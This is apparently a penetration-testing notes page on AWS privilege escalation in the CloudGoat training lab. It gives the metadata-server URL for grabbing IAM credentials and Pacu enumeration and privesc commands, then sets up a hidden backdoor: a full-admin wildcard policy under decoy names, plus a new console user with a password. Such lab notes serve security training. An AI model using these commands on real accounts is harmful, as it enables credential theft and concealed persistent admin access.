


# AWS Priv Esc + GUI access

## AWS Priv Esc + GUI access

### IAM data

IAM creds can be stored in the metadata server \(from an instance shell\)

[http://169.254.169.254/latest/meta-data/iam/security-credentials/IAM\_ROLE\_HERE](http://169.254.169.254/latest/meta-data/iam/security-credentials/IAM_ROLE_HERE)



#### Priv esc using cloudgoat

Ensure that your main account is configured. \(~/.aws/\)

if not :

```text
aws configure
```

* Import access and secret key for cloudgoat admin account

```csharp
aws configure --profile ACCOUNT_NAME
```

* Run cloudgoat

```csharp
docker run -it -v /root/.aws/:/root/.aws rhinosecuritylabs/cloudgoat:latest
```

* create an IP whitelist and a profil using the admin account

```csharp
python cloudgoat.py config whitelist
python cloudgoat.py config profile
```

* Import access and secret key from compromised account \(from cloudgoat output\)

```csharp
aws configure --profile raynor
```

### Pacu

* Launch PACU and add a profile name
* import the profile ke:

```csharp
import_keys raynor
```

* Enumerate

```csharp
whoami
run iam__detect_honeytokens
run iam__enum_permissions
run iam__enum_users_roles_policies_groups
```

* priv esc

```csharp
run iam__privesc_scan
```

Press Enter then choose v3.

#### GUI Access

* Create a backdoor json policy file :

```bash
{

        "version": "2012-10-17",
        "Statement": [

                {
                        "Sid": "NotaBackdoor",
                        "Effect": "Allow",
                        "Action": "*",
                        "Resource": "*"
                }

        ]
}
```

* With an admin account, create a GUI user 

```csharp
aws iam create-user --user-name gui-user --profile raynor
```

note User ID and the 12 digits

`"UserId": "REDACTED", "Arn":"arn:aws:iam::REDACTED:user/gui-user",`

* Attach the backdoored json to the profile :

```csharp
aws iam put-user-policy --user-name gui-user --policy-name DontLookHere --policy-document file://admin-policy.json --profile raynor
```

* Create a password for the gui-user

```csharp
aws iam create-login-profile --user-name gui-user --password "PASSWORDHERE" --profile raynor
```

* Login into the console with your new account

`http://YOUR_12_DIGITS_HERE.signin.aws.amazon.com/console`

* Enjoy :\)



### Resources






